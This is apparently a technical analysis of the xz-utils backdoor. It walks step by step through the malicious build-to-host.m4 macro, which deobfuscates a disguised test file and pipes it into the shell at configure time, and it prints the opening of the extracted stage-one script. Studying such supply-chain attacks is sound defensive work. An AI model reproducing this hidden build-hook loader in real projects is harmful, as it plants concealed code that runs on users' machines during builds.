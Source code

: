 - The attack kicks off with adding an unexpected support library(2024.02.24)
    - [m4/build-to-host.m4](https://salsa.debian.org/debian/xz-utils/-/blob/debian/5.6.0-0.2/m4/build-to-host.m4?ref_type=tags)


## Mechanism

### 1. `build-to-host.m4`
[m4/build-to-host.m4](/Unknown/xz-utils_backdoor/script/build-to-host.m4)
```sh
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
if test -n "$gl_am_configmake"; then
  HAVE_PKG_CONFIGMAKE=1
else
  HAVE_PKG_CONFIGMAKE=0
fi
```
- `gl_am_configmake='./tests/files/bad-3-corrupt_lzma2.xz'`
- `HAVE_PKG_CONFIGMAKE=1`

```sh
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
```
- `gl_[$1]_prefix='xz'`

```sh
gl_path_map='tr "\t \-_" " \t_\-"'
```
- `gl_path_map='tr "\t \-_" " \t_\-"'`

```sh
if test "x$gl_am_configmake" != "x"; then
  gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
else
  gl_[$1]_config=''
fi
```
- `gl_[$1]_config='sed \"r\n\" ./tests/files/bad-3-corrupt_lzma2.xz | eval 'tr "\t \-_" " \t_\-"' | xz -d 2>/dev/null'`
- `sed r\n` == `cat`
- `gl_[$1]_config=cat ./tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d`
- Deofuscate `tests/files/bad-3-corrupt_lzma2.xz`

```sh
AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
```
- Execute the deofuscate script


### 2. `bad-3-corrupt_lzma2.xz`
[test/files/bad-3-corrupt_lzma2.xz(Deobfuscated)](/Unknown/xz-utils_backdoor/script/bad-3-corrupt_lzma2.sh)
```sh
####Hello####
#�U��$�
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
    eval `grep ^srcdir= ../../config.status`
    srcdir="../../$srcdir"
fi
```